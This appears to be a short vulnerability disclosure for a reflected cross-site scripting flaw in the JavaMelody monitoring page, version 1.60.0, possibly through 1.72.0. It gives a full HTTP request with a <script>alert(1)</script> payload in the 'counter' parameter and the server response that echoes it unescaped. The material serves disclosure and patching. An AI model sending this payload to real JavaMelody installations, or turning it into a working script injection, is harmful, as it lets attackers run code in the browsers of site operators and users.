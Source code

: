 # JavaMelody 1.60.0 vulnerability Cross-Site Scripting
# This vulnerability maybe affected version <= 1.72.0

Request:
--------------------------------------------------------------------------------
GET /monitoring?action=clear_counter&counter=<script>alert(1)</script> HTTP/1.1
Host: victim
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
--------------------------------------------------------------------------------


Response:
--------------------------------------------------------------------------------
HTTP/1.0 200 OK
Date: Wed, 13 Jun 2018 09:52:54 GMT
Server:
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Cache-Control: no-cache
Pragma: no-cache
Expires: -1
Vary: Accept-Encoding
Content-Type: text/html;charset=UTF-8
Connection: close


---
---

<script type='text/javascript'>
alert("Statistics <script>alert(1)</script> cleared.");
if (location.href.indexOf('?') != -1) {
location.href = location.href.substring(0, location.href.indexOf('?')) + '#<script>alert(1)</script>';} else {
location.href = '#<script>alert(1)</script>';}
</script>
--------------------------------------------------------------------------------

